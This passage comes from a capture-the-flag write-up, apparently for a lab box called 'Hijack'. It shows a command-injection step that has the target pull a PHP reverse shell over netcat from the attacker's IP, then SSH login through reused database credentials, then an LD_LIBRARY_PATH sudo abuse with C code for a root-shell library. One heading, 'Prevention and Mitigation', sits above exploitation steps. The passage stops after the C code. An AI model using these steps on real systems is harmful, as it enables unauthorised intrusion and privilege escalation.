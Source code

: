 > The reverse shell i used is `Pentest Monkey php shell`

Now on the command injection i connect to my listener and write the output to shell.php on the target.

```bash
$(nc 10.9.76.240 1234 > shell.php)
```

Now we just setup a listener and request the file.

![revshell](12.png)

## **Privilege Escalation**

### www-data -> rick

Checking the files of the website we find a config files with database credentials.

![creds](13.png)

That's rick's password used to connect to the database, let's see if he reused the password by connecting via ssh.

![ssh login](14.png)

It worked!

## **Prevention and Mitigation**

Let's check our privileges as rick.

```bash
rick@Hijack:~$ sudo -l
[sudo] password for rick:
Matching Defaults entries for rick on Hijack:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_LIBRARY_PATH

User rick may run the following commands on Hijack:
    (root) /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

We can start an apache webserver as root.

The important thing to notice here is the `env_keep+=LD_LIBRARY_PATH` at the top.

On `HackTricks` we can find a way to exploit this option to get a root shell.

![hacktricks](15.png)

First we need to create a c file with the following code:

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
